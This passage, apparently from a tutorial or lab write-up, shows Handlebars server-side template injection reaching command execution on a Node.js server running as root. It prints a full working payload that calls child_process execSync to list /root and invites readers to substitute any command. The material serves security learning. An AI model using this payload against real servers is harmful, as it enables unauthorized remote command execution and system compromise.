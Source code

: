 ![can't display an image](images/reapeter_out4.png)

- As you can see in the previous image that we got the response to the command `whoami` and the result is `root`

- So now feel free to change the command `whoami` with any other command.

- let's list the folders and files inside the root directory with `ls` command.

```js
{{#with "s" as |string|}}
 {{#with "e"}}
  {{#with split as |conslist|}}
    {{this.pop}}
    {{this.push (lookup string.sub "constructor")}}
    {{this.pop}}
      {{#with string.split as |codelist|}}
      {{this.pop}}
       {{this.push "return process.mainModule.require('child_process').execSync('ls /root');"}}
      {{this.pop}}
      {{#each conslist}}
        {{#with (string.sub.apply 0 codelist)}}
         {{this}}
       {{/with}}
     {{/each}}
   {{/with}}
  {{/with}}
{{/with}}
{{/with}}
```